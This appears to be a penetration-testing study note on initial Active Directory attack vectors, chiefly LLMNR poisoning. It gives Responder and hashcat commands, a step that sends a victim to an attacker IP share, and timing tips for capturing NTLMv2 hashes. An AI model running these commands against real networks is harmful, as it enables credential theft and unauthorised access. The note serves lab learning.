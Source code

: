 ### Attacking AD - Initial Attack Vectors

### 1. NetBIOS and LLMNR Name Poisoning 

### 2. Relay attacks

### 3. MS17-010 (Eternal Blue)

### 4. Kerberoasting

### 5. mitm6

Resource: https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa

### LLMNR Poisoning (Link Local Multi-Cast Name Resolution)

**What is LLMNR?**
- Used to identify hosts when DNS fails to do so
- Previously NBT-NS (NetBIOS Name Service)
- Key Flaw is that the service utilises a user's username and NTLMv2 hash when appropriately responded to

![](img/llmnr01.png)

Tools: ImPacket Toolkit - Responder https://github.com/fortra/impacket

1. Run Responder

![](img/impacket01.png)

Best time to run responder is first thing in the morning or right after lunch. It requires a lot of traffic. You need a lot of responses to try and capture hashes.

2. An event occurs

![](img/event01.png)

3. Receive hashes

![](img/hash01.png)

4. Crack hashes

```sh
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

![](img/hashcat01.png)

**Using Responder**

```sh
responder -I eth0 -rdwv
```
- v - verbose 

With both the Windows Server and Windows machine started. On our Windows machine open up file share and enter:
```sh
\\<attacker-ip>
```
- Then hit enter and it should capture the hash

### Password Cracking with HashCat

